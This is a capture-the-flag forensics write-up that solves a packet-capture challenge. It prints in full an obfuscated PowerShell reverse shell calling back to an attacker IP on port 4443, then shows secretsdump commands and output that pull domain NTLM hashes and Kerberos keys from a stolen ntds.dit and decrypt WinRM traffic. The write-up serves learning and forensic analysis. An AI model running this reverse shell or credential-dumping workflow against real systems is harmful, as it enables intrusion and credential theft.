




# Keep the Steam Activated

The description for this challenge is as follows:

*The network in which our main source of steam is connected to, got compromised. If they managed to gain full control of this network, it would be a disaster!*

The challenge was rated at 3 out of 4 stars, and it was worth 450 points at the end with a total of 14 solves.The downloadables for this challenge included a single pcap file. This was a reasonably difficult forensics challenge that included skills like pcap analysis, obfuscated powershell script analysis, and decoding encrypted protocols using scripts.

**TL;DR Solution:** Extract ntd.dit and SYSTEM hive files from the pcap based on information derived from an obfuscated powershell script. Extract NTLM hashes from those files, and use them to decrypt WinRM traffic. Then find the flag encoded in base64.


## Extracting NTLM Hashes

Firstly, one good initial step when dealing with pcap files is to check if any files were transferred over HTTP, since Wireshark provides an easy option for the extraction of such files. Simply go to File > Export Objects > HTTP. The files that seemed especially relevant here were called rev.ps1, n.exe, and drop.ps1. As a result, I saved all of them for further analysis.



The rev.ps1 file was relatively obfuscated, as shown below. However, one piece of obfuscated text that stands out is "(("{0}{1}{2}" -f '192.168','.1','.9'),4443)". This appears to be targetting the attacker machine's IP address of 192.168.1.9, on what we can assume is port 4443.
```
sv ('8mxc'+'p')  ([tyPe]("{1}{0}{2}" -f 't.encOdi','tex','nG') ) ;${ClI`E`Nt} = &("{1}{0}{2}"-f 'je','New-Ob','ct') ("{5}{0}{8}{1}{2}{3}{4}{6}{7}" -f'y','m','.Net.So','ckets.T','C','S','PC','lient','ste')(("{0}{1}{2}" -f '192.168','.1','.9'),4443);${sT`Re`Am} = ${C`L`IeNT}.("{0}{2}{1}"-f'Ge','tream','tS').Invoke();[byte[]]${By`T`es} = 0..65535|.('%'){0};while((${i} = ${str`EaM}.("{0}{1}" -f'Re','ad').Invoke(${bY`Tes}, 0, ${by`TEs}."Len`G`TH")) -ne 0){;${d`AtA} = (.("{2}{1}{0}"-f '-Object','w','Ne') -TypeName ("{0}{3}{5}{1}{4}{2}" -f'Syst','ASCI','g','em.Text','IEncodin','.'))."gETSt`R`i`Ng"(${by`TES},0, ${i});${SeN`DBacK} = (.("{0}{1}"-f 'ie','x') ${Da`Ta} 2>&1 | &("{0}{2}{1}"-f'Out-','ing','Str') );${SENdb`AC`k2} = ${s`eNDb`ACK} + "PS " + (.("{1}{0}"-f'd','pw'))."P`ATH" + "> ";${sE`NDBYtE} = (  (  vaRIaBle ('8MXC'+'P')  -ValUe  )::"ASC`Ii").("{2}{1}{0}"-f'es','tByt','Ge').Invoke(${SENdB`AC`K2});${sT`REAM}.("{0}{1}" -f'Writ','e').Invoke(${S`e`NdbY`Te},0,${SE`NDbyTe}."lENG`TH");${S`TR`eAM}.("{1}{0}" -f 'h','Flus').Invoke()};${clIE`Nt}.("{0}{1}"-f 'Cl','ose').Invoke()
```
If I use the filter "tcp.port == 4443" in Wireshark, I can see that there is a lot of TCP traffic here. If I right-click one of these packets and select Follow > TCP stream, I can view a plaintext representation of the conversation that occurred over these packets. Of particular interest is the fact that the files ntds.dit and the SYSTEM hive seem to have been encoded in base 64, then transferred back to the attacker machine using port 8080 with the n.exe file. As a side-note, I determined that n.exe seems to be a version of netcat by simply uploading it to VirusTotal.



Now I can use the filter "tcp.port == 8080" and follow the conversations again like described above. There are two separate conversations, both of which seem to be base64 strings with "-----BEGIN CERTIFICATE-----" at the top and "-----END CERTIFICATE-----" at the end. 



I decoded both files by using the base64 utility in the Linux command line. The workflow here is to use the "Save as" option at the bottom of the followed TCP window to save a text file version of each stream, open the files up in a text editor to cut of the plaintext certificate lines, then run them through the base64 utility while piping the outputs to appropriately named files. Now I just need to figure out where to go from here.
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode ntds_b64_stream > ntds.dit
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode system_b64_stream > system.hive
```
## Deriving NTLM Hashes

Obviously, there is a lot of information in both the ntds.dit and SYSTEM hive files, so I decided to focus on what I could derive if given both simultanoeously. After a bit of research, I found that it is a reasonably common strategy to rip these files from a system in order to extract NTLM hashes for Domain users. Impacket has a script that can automatically extract these hashes called secretsdump.py; my Kali Linux machine seems to have the script already, but you could also download it from the github at https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py. The actual command to dump the hashes is relatively straightforward, as is the process of parsing the results:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x406124541b22fb571fb552e27e956557
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9da98598be012bc4a476100a50a63409
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8bb1f8635e5708eb95aedf142054fc95:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CORP-DC$:1000:aad3b435b51404eeaad3b435b51404ee:94d5e7460c75a0b30d85744f633a0e66:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9555398600e2b2edf220d06a7c564e6f:::
CORP.local\fcastle:1103:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
CORP.local\jdoe:1104:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
WS01$:1105:aad3b435b51404eeaad3b435b51404ee:cd9c49cc4a1a535d27b64ab23d58f3e6:::
WS02$:1106:aad3b435b51404eeaad3b435b51404ee:98c3974cacc09721a351361504de4de5:::
CORP.local\asmith:1109:aad3b435b51404eeaad3b435b51404ee:acbfc03df96e93cf7294a01a6abbda33:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6e5d1ccb7642b4bf855975702699f733034916dbd04bf4acddc36ac273b3f578
Administrator:aes128-cts-hmac-sha1-96:8d5709c4a7cab2e0f5fbb4a069b283fb
Administrator:des-cbc-md5:e302c7793b58ae97
CORP-DC$:aes256-cts-hmac-sha1-96:9c888129432a87257f81f6bb6affd91bc3b0ba9cf20e94ef9216364d79aab5bd
CORP-DC$:aes128-cts-hmac-sha1-96:0ac3c714050469724e5c41d21f7f86d3
CORP-DC$:des-cbc-md5:57497ce6972613da
krbtgt:aes256-cts-hmac-sha1-96:85c670ece27dad635c28630454154bb325b644b8f61d44f802b80c39277f529e
krbtgt:aes128-cts-hmac-sha1-96:15bfbb6b827c1904e49d77bf7624c2f4
krbtgt:des-cbc-md5:a2074373b920515d
CORP.local\fcastle:aes256-cts-hmac-sha1-96:c6319d38d781e145161c4b1a4ef11d08ad9be36c43b173b355f78c2cf2edf15a
CORP.local\fcastle:aes128-cts-hmac-sha1-96:144565c25d70678535b2908983d74f6e
CORP.local\fcastle:des-cbc-md5:6b0b2f01a731a78f
CORP.local\jdoe:aes256-cts-hmac-sha1-96:9d74074381d0000525c1cfbb24c2943e28bf415b89c8cf958eae5add39614ac8
CORP.local\jdoe:aes128-cts-hmac-sha1-96:7e0fb5fa7dcfa50ea0a8a55e08b63f74
CORP.local\jdoe:des-cbc-md5:610e67019e9b68ab
WS01$:aes256-cts-hmac-sha1-96:ccc215ff3ac06dc3e206f6e55cd1512f3bb00311d02c77591f3cb08e01d5a40f
WS01$:aes128-cts-hmac-sha1-96:5e94401d7da953a13d42809340ff6ec3
WS01$:des-cbc-md5:9885ea642f268ab3
WS02$:aes256-cts-hmac-sha1-96:dc3f081be6c29532904a073124a0998d857667cc5c531fcbe0f6d3e46d40eac2
WS02$:aes128-cts-hmac-sha1-96:7e494ea36b4fb80670f807a8c72e7b3d
WS02$:des-cbc-md5:b58a08dc9eabbc0d
CORP.local\asmith:aes256-cts-hmac-sha1-96:57e22c0b740ed35935f82a6e34ab84a683437105a4ab2f1f3ba70962d5c53112
CORP.local\asmith:aes128-cts-hmac-sha1-96:392a638579d925cca9e4ef7965b9dcdd
CORP.local\asmith:des-cbc-md5:839bd6e9380e40f7
[*] Cleaning up... 
```
By googling the NT hashes, I was able to determine that asmith's plaintext password was Summer2020, but I have not determined the passwords for the other users.

### SMB Decryption Rabbit Hole

I spent several hours attempted to decrypt the encrypted SMB3 traffic at the beginning of the capture. I will not go into much detail about that here, but if anyone is interested, this writeup provides the best description of how to decrypt this traffic, and I used it extensively in these attempts: https://medium.com/maverislabs/decrypting-smb3-traffic-with-just-a-pcap-absolutely-maybe-712ed23ff6a2

## Decrypting the Winrm Traffic

When you view the traffic immediately after the bas64 encoded SYSTEM hive has finished transmitting over port 8080, you can see encrypted winrm traffic that can hopefully be decrypted to view the flag.



I was able to find a script online that can purportedly decrypt winrm traffic if given the NT  hash of the password, which seems perfect given what we have. However, when I attempted to run it, it failed. Ultimately, the issue seems to have come down to a failure to properly parse the pcap capture data as bytes. A team member made adjustments on line 208, where "include_raw=True, use_json=True" was added, and line 248, where "file_data = cap.http.file_data.binary_value" was changed to "file_data = cap.http.file_data_raw[0].binary_value". The output was very long, and it started like this: 
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ python3 winrm_decoder_edited.py -n 8bb1f8635e5708eb95aedf142054fc95 capture.pcap 
No: 21358 | Time: 2021-11-05T07:04:51.144128 | Source: 192.168.1.9 | Destination: 192.168.1.10
<?xml version="1.0" ?>
<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:env="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:b="http://schemas.dmtf.org/wbem/wsman/1/cimbinding.xsd" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:x="http://schemas.xmlsoap.org/ws/2004/09/transfer" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:cfg="http://schemas.microsoft.com/wbem/wsman/1/config">
	<env:Header>

```
I ended up piping this output to a "winrm_decoded.txt" file and grepping for flag-like results. At an initial glance, I noticed that there seemed to be a lot of powershell commands obfuscated with base64 that could contain a plaintext flag. Base64 encoding depends on offset, so as a I was attempting to grep for the flag, I tried encoding aHTB{ and got YUhUQns=. The first two characters seem dependant on the a, so if I just grep for some of the middle characters, I get:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ cat winrm_decoded.txt | grep hUQn
			<rsp:Stream Name="stdout" CommandId="8937D38B-70EB-44FB-84C5-DB5752DA7E67">AAAAAAAAABoAAAAAAAAAAAMAAABeAQAAAAQQBACzrAetdF3OT7duxmQ4O6Yxi9M3ietw+0SExdtXUtp+Z++7vzxTPkhUQntuMHRoMW5nXzFzX3RydTNfM3Yzcnl0aDFuZ18xc19kM2NyeXB0M2R9PC9TPg==</rsp:Stream>
```
If I then go ahead and decode this base64 string, I get:
```
....................^........³¬..t]ÎO·nÆd8;¦1.Ó7.ëpûD.ÅÛWRÚ~g<S>HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}</S>
```
Thanks for reading!
